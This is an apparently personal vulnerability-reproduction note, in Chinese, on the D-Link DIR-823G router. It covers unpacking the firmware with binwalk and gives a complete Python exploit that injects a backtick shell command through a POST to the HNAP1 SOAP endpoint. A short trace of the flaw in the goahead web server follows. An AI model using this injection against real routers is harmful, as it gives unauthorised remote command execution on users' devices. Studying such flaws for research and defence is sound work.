

# dir823g


# binwalk

```
binwalk -Me DIR823G_V1.0.2B05_20181207.zip 
```


mips-32-little

---


exp分析
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests


IP='192.168.0.1'

#输入要执行的命令
command = "'`cat /flag > /web_mtn/flag.txt`'"
length = len(command)

#构造报文的头部
headers = requests.utils.default_headers()
headers["Content-Length"]=str(length)
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/GetClientInfo"'
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"

#发送攻击payload
payload = command
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
```

exp提交到了HNAP1目录，command是通过post方式输入的。

我们首先定位下HNAP1.


这个路由器在rcS中，通过启动goahead 开启web服务。
分析下goahead,搜索字符串HNAP1。


这里明显是goahead服务器，根据不同的路径调用不同函数。

定位漏洞点


函数调用链如下：
调用链如下



# 动态调试


---

# 疑似漏洞点


命令执行，向上追溯


来自于v1.


